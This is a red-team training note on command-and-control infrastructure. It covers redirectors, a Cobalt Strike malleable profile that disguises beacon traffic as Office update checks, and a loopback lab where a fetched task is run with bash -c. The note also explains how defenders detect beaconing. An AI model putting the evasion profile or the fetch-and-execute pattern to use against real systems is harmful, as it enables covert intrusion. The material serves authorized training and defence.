

# 📡 C2 Infrastructure & Redirectors

> [!warning] Authorized adversary emulation only
> Build C2 only for authorized exercises on infrastructure you own, with operator authentication, an audit log, and a kill switch. The lab here is a transparent loopback emulator using a canary task — never a concealment tool against a client outside the agreed scenario. Domain fronting / third-party trust abuse may violate provider terms and is not assumed available.

## Parent Learning Order
C2 Infrastructure & Redirectors -> Operational Security, Anti-Forensics & Teardown

## How Operators Talk to Their Foothold

> *An analyst pulls the configuration out of your beacon. What have they learned?*
>
> Hold your answer — the section below is the response.

Once a red team has a foothold, it needs a reliable, controllable channel to task the agent and receive results — **Command and Control (C2)**. And it needs that channel to be *resilient*: if the client blocks one address, the operation shouldn't collapse. **Redirectors** provide that resilience by separating the public-facing ingress (what the agent talks to) from the real control server (where operators work), so the front can be replaced without exposing or losing the back. This note covers both — the C2 architecture and the redirector/traffic-governance layer — because together they are the *communications backbone* of every red team operation.

The professional framing that distinguishes authorized C2 from criminal C2: **it is transparent and auditable to the white team** — signed/typed tasks, RBAC, short-lived tasking, immutable audit, and a kill switch. You are building a *coordination and measurement* system, not just a covert tunnel.

> [!tip] The analogy, and where it breaks
> A redirector is like a phone switchboard operator between a spy and their handler: the spy only ever calls the switchboard number (the redirector), which quietly patches the call to wherever the handler actually is — so even if the spy's phone is seized, the handler's real location stays hidden and the number can be re-pointed. The analogy breaks on accountability: a real spy's switchboard hides everything, whereas an authorized red team's "switchboard" *logs every call for the white team*, because the goal is a measurable, reviewable exercise, not untraceable concealment.

**Prerequisites:** the Networking domain (HTTP/DNS, proxies), **Red Team Campaign Planning & Initial Access**, and OS/process basics.

**The deliberate break:** the C2 server is the infrastructure. Stand it up, point the agents at it, and harden it well.

If the agent knows your control server's address, so does the defender — the first analyst who examines a beacon reads your infrastructure straight out of it. One blocklist entry ends the operation, one abuse report seizes the host, and the addresses you spent weeks warming are burned in an afternoon. **The operator is never directly exposed**, and a redirector is not hardening applied to a working design; it *is* the design.

The second half people underestimate: what gets you caught is rarely the payload. It is **behaviour** — a beacon calling home on a fixed interval produces a metronomic connection pattern that stands out in flow data no matter how well the payload is obfuscated, which is exactly what the **Zeek** note teaches defenders to look for. Jitter, realistic intervals and a profile that matches plausible traffic do more for survival than any amount of packing.

**How you'd spot the mistake in your own build:** extract the configuration from your own agent as a defender would. If the address you find is a host you care about, the architecture is wrong before the operation starts.

## C2 Architecture: The Moving Parts

| Component | Role |
|---|---|
| **Agent / implant** | Runs on the foothold; beacons for tasks, returns results |
| **Control plane** | Where operators queue signed, typed tasks; enforces RBAC/expiry |
| **Listener / channel** | The transport: HTTP(S), DNS, cloud queue, peer-to-peer |
| **Redirector** | Public ingress that forwards allowed traffic to the control plane |
| **Audit log** | Immutable record of every task, result, and cleanup |

Channels trade off on **reliability, auditability, and detectability** (not concealment): **HTTP(S)** blends with web traffic and is easy to audit; **DNS** traverses restrictive egress but is slow and noisy; **cloud queues** look like legitimate SaaS. The **beacon** model (agent *polls* on an interval, "check-in") is the norm because it survives NAT/firewalls and looks like ordinary outbound web requests — the same reason the Networking egress-control leaf treats periodic outbound callbacks as a signal.

## Redirectors and Traffic Governance

A redirector sits between the agent and the control server and **default-denies**, forwarding only traffic that matches policy — source, path, method, rate, certificate — and sending everything else to a decoy or a deny response. This does two jobs: it **hides and protects** the real control server (seize the redirector, lose nothing), and it **governs traffic** (rate limits, TLS, allowlists, health checks, and — critically — an **emergency shutdown**).



Domain/traffic governance means owning the domains, controlling DNS/TLS, honoring provider terms, logging, and — always — a documented **teardown** (next leaf). Techniques like domain fronting or abusing third-party trust may violate provider terms and are not assumed available.

## Malleable Profiles: shaping the beacon's HTTP transaction

A redirector hides the control server; a **malleable profile** hides the *beacon
itself* inside traffic that looks like a legitimate application. Without one,
a Cobalt Strike (or compatible) beacon makes HTTP requests with recognisable
default headers, URIs, and timing — a defender who knows the defaults finds the
beacon immediately. A malleable profile is a configuration file that specifies,
field by field, what the beacon's HTTP GET and POST transactions look like:
URIs, method, headers, cookies, body transforms, sleep interval, and jitter.

The goal is a transaction that is **indistinguishable from a known software
product's legitimate traffic** — not just "looks like HTTP", but "matches the
specific fields a real Office CDN check-in or Teams heartbeat would produce."

```text
# Excerpt: shaping the beacon GET to resemble a software update check
set sleeptime "45000";        # 45-second check-in interval
set jitter     "20";          # ±20% random jitter — breaks metronomic detection

http-get {
    set uri "/updates/check?v=16.0.1&build=canary";

    client {
        header "Accept"          "application/json, text/plain, */*";
        header "Accept-Language" "en-US,en;q=0.9";
        header "User-Agent"      "Microsoft Office/16.0 (Windows NT 10.0)";

        metadata {
            base64url;
            prepend "session=";
            header "Cookie";
        }
    }

    server {
        header "Content-Type"  "application/json";
        header "Cache-Control" "no-store";

        output {
            base64url;
            print;
        }
    }
}
```

**Key directives and what they control:**

| Directive | Controls |
|---|---|
| `set sleeptime` / `set jitter` | Check-in interval in ms; jitter as % randomisation |
| `http-get` / `http-post` | Shape of the two transaction types independently |
| `header` | HTTP headers sent by the client or returned by the server |
| `uri` | The path and query string of the request |
| `metadata` / `id` / `output` | Where beacon metadata/task IDs/results are hidden and how they are encoded (`base64`, `base64url`, `netbios`, `mask`) |
| `transform-x86` / `transform-x64` | Shellcode transforms (prepend/append/xor) applied to the staged payload |
| `post-ex` block | Process spawn settings and pipe names for post-exploitation |

**The limit a profile cannot remove.** Even a perfect profile is visible at the
*behavioural* level. The destination is still a single IP or domain that the host
calls on a regular interval; the frequency, data volume per request, and
correlation between one host's check-ins and another's are all preserved. A
mature defender does not look at the `User-Agent` alone — they look at the
*pattern*:

```text
# Zeek connection summary for a host running a 45s jittered beacon:
# ts=11:00:00  src=10.10.10.14  dst=203.0.113.10  bytes=340   uri=/updates/check?v=...
# ts=11:00:47  src=10.10.10.14  dst=203.0.113.10  bytes=340   uri=/updates/check?v=...
# ts=11:01:31  src=10.10.10.14  dst=203.0.113.10  bytes=340   uri=/updates/check?v=...
```

The host WS-014 (10.10.10.14 on The Thread) is talking to edge (203.0.113.10)
every ~47 seconds with identical request size, to a URI pattern that a real CDN
would vary. Jitter randomises the interval; it does not randomise the destination,
the size, or the existence of the pattern. Domain reputation, destination rarity,
and size-distribution analysis engage malleable profiles at the layer the profile
cannot control.

**Auditing your own profile before an engagement.** Extract a capture of your
beacon's traffic and compare it against legitimate captures of the software it
impersonates: header order, TLS ALPN values, JA3/JA3S fingerprints, response
sizes. Any mismatch is a field a defender's ruleset can key on. The profile tells
the beacon what to send; it cannot tell the TLS stack what fingerprint to present —
browser-impersonation profiles that need a specific JA3 require a matching TLS
library, not just a malleable directive.

## Worked Example: An Agent That Never Talks to the Control Server

A C2 redirector exists so that the thing the defender can see — the address the
agent beacons to — is never the thing worth protecting. Modelling an agent, a
redirector, and a hidden control plane on loopback shows the indirection and the
signal it does and does not hide.

**The topology** is three parties: the agent beacons to the redirector, the
redirector forwards one specific path to the control server, and the control
server is never contacted directly.

**Default-deny at the redirector** is what makes it more than a proxy:

```shell-session
operator@lab:/tmp/c2-lab$ curl -s -o /dev/null -w "GET /random -> HTTP %{http_code}\n" http://127.0.0.1:9100/random
GET /random -> HTTP 404
```

Anything that is not the agreed beacon path gets a decoy 404. A defender or a
curious scanner poking the redirector sees an unremarkable web server that serves
nothing interesting, because the policy forwards exactly one path and denies the
rest.

**The beacon** retrieves a task and runs it, having spoken only to the redirector:

```shell-session
operator@lab:/tmp/c2-lab$ TASK=$(curl -s http://127.0.0.1:9100/beacon); echo "task: $TASK"
task: echo CANARY-TASK-EXECUTED
operator@lab:/tmp/c2-lab$ bash -c "$TASK"
CANARY-TASK-EXECUTED
```

The agent's entire world is `127.0.0.1:9100`. The real control plane on `:9101`
issued the task, but the agent has no knowledge of it and never connected to it —
so seizing or blocking the redirector's address, which is the only one visible in
the agent, costs the operator a disposable forwarder and reveals nothing about the
control server behind it.

**What the indirection does not hide** is the behaviour, and an authorized
operation records exactly that:

```shell-session
operator@lab:/tmp/c2-lab$ cat audit.log
check-in 127.0.0.1 /task
```

The control plane logged the check-in — the transparency an authorized engagement
requires. And the defender's signal survives every layer of redirection: a host
that reaches out to the same external address on a regular cadence is beaconing,
whatever clever infrastructure sits on the far end. Redirectors protect the
*operator's* infrastructure from discovery; they do nothing to hide the *client
host's* periodic outbound connection, which is why egress control and beacon-cadence
detection — jitter analysis, destination rarity, regular small requests — are the
defences that actually engage the technique rather than the plumbing.

## Pointing agents straight at your control server

- **No redirector.** Pointing agents straight at the control server means one block/seizure ends the operation and exposes your infrastructure — always front it.
- **Beacon interval too aggressive.** A fast, fixed-interval beacon is trivially detected as periodic callback; jitter and realistic intervals matter (and are exactly what defenders hunt).
- **Unaudited tasking.** C2 without signed, logged, RBAC-gated tasks fails the transparency requirement of an authorized exercise — it must be reviewable.
- **Provider-terms violations.** Domain fronting/third-party abuse can breach the hosting provider's terms and legality — don't assume availability; confirm authorization.
- **No kill switch.** An operation you can't halt instantly is unsafe — a kill switch and health monitoring are mandatory.

## Security Implications — the Defender's View

- **C2 detection is high-value:** periodic beaconing (regular-interval outbound connections), anomalous DNS volume/length, connections to young/low-reputation domains, and JA3/TLS fingerprints are the classic signals — the Networking egress-control and DNS-security leaves are the defenses.
- **Egress control breaks C2:** allow-listing required destinations and inspecting DNS/HTTP defeats most channels — the single most effective structural defense.
- **Redirector awareness:** defenders can't see the real C2 behind a redirector, so detection focuses on the *agent's behavior* (beacon pattern) rather than the destination.
- **Threat intel + TLS inspection:** blocking known-bad infrastructure and inspecting encrypted traffic surfaces C2 that blends into HTTPS.

## Summary

You should now be able to:

- Explain what C2 is, what beaconing is, and why a redirector separates public ingress from the real control server.
- Stand up a transparent, audited C2 with a default-deny redirector, and task a canary agent through it.
- Compare C2 channels by reliability/auditability/detectability, explain why beacon patterns and egress control are the decisive defenses, and why authorized C2 must be signed/RBAC'd/kill-switched/audited.
- Explain what a malleable profile controls (URI, headers, transforms, sleep/jitter) and why profile-perfect traffic is still detectable via interval cadence, destination rarity, and JA3 fingerprint — the dimensions a profile cannot change.

---
> 🔼 Up: [[C2 Infrastructure & Operational Security]]
